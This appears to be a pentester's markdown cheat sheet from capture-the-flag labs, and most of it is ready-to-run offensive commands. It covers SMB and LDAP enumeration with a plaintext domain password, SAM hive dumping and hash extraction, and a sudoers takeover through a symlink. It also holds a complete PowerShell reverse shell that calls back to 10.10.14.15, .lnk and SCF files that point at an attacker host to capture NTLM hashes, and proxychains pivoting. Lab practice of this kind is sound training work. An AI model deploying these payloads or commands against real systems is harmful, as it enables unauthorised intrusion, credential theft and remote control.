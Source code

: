 #### SMB:
  * ```smbclient -N -L //10.10.11.35```
  * ```netexec smb 10.10.11.35 -u 'a' -p '' --shares```
  * ```smbclient -U Guest //10.10.11.35/share```
  * ```netexec smb 10.10.11.35 -u Guest -p '' --rid-brute```
  * ```netexec smb 10.10.11.35 -u username.txt -p 'password123!'```

### LDAP:
  * ```ldapdomaindump 10.10.11.35 -u 'domain\username' -p 'password123!'```
  * ```ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'```

#### Powershell:
  * ```Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue```
  * ```Get-Service | Where-Object { $_.Status -eq 'Running' }```

#### CMD:
  * Name and account for all services:
    ```wmic service get name,startname```

  * started services only:
    ```wmic service where started=true get  name, startname```

  * services with specific pattern in name:
    ```wmic service where 'name like "%sql%"' get  name, startname```

#### System SAM Hive dump:
  * cd c:\
  * mkdir Temp
  * reg save hklm\sam c:\Temp\sam
  * reg save hklm\system c:\Temp\system
  * cd Temp
  * download sam
  * download system
  * pypykatz registry --sam sam system

#### Subdomain Enumeration:
  * ```ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18```

#### Directory Enumeration
  * ```gobuster dir -u http://lms.permx.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```

#### Symlink Techniques:
  * ```ln -s /etc/sudoers /home/john/sudoerss```

#### Manipulating sudoers file:
  * ```vi /etc/sudoers```
    * ```john ALL=(ALL:ALL) NOPASSWD: ALL```
   
#### Hash cracking:
  * john john.hash -w=/usr/share/wordlists/rockyou.txt

#### SSH local port forwarding:
  * Service in running on victim machine 127.0.0.1:8080 and can only be accessed via localhost
    * kali-Attacker$ ssh -L 0.0.0.0:9999:127.0.0.1:PORT john@VICTIM-IP
    * kali-Attacker$ curl -I http://127.0.0.1:9999
   
#### Exploiting Chrome Debugger:
  * https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/

#### Powershell Reverse shell:
```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
#### Capturing Hashes with a Malicious .lnk File
```
# Erstellt ein neues COM-Objekt, das die Windows Shell steuert (ermöglicht die Erstellung von Verknüpfungen, Ausführung von Programmen usw.).
$objShell = New-Object -ComObject WScript.Shell

# Erstellt eine neue Verknüpfung mit dem Namen "legit.lnk" im Verzeichnis "C:\".
$lnk = $objShell.CreateShortcut("C:\legit.lnk")

# Setzt den Zielpfad der Verknüpfung auf einen Netzwerkpfad. Dieser zeigt auf einen entfernten Server (Angreifer-Server),
# der mit einer Datei "@pwn.png" erreichbar ist. Beim Öffnen oder Vorschauen dieser Verknüpfung wird versucht, auf diesen Pfad zuzugreifen,
# was eine Authentifizierungsanforderung (z. B. NTLM-Auth) an den Angreifer-Server auslösen kann.
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"

# Setzt den Stil des Fensters, das beim Ausführen des Ziels erscheint. Der Wert "1" bedeutet, dass das Fenster in normaler Größe geöffnet wird.
$lnk.WindowStyle = 1

# Weist der Verknüpfung ein Symbol aus der Datei "shell32.dll" (eine Datei in Windows, die verschiedene Symbole enthält) zu.
# "3" steht für das Symbol, das aus dieser Datei verwendet wird (meist ein Standardordner-Symbol).
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"

# Setzt eine Beschreibung für die Verknüpfung. Diese Beschreibung wird angezeigt, wenn der Benutzer mit der Maus über die Verknüpfung fährt.
# Hier wird darauf hingewiesen, dass ein Besuch des Verzeichnisses, in dem die Verknüpfung gespeichert ist, eine Authentifizierungsanforderung auslösen kann.
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."

# Weist der Verknüpfung eine Tastenkombination (Strg + Alt + O) zu, mit der der Benutzer die Verknüpfung schnell ausführen kann.
$lnk.HotKey = "Ctrl+Alt+O"

# Speichert die erstellte Verknüpfung (legit.lnk) auf der Festplatte.
$lnk.Save()
```
#### SCF on a File Share
```[Shell]
Command=2
IconFile=\\103.103.143.33\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
#### Pivoting, Tunneling, and Port Forwarding
 #####
 * Dynamic port forwarding
 ```
ssh -D 9050 alreadyCompromisedMachine@10.129.202.64
```
 ##### 
 * edit /etc/proxychains.conf
   
 ```
    socks4 	127.0.0.1 9050
    proxychains nmap -v -sn 172.16.5.1-200
    proxychains nmap -v -Pn -sT 172.16.5.19
    proxychains msfconsole
    search rdp_scanner
    proxychains xfreerdp /v:172.16.5.19 /u:admin /p:pass@123
```
#### Ping Sweep:
```for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done```
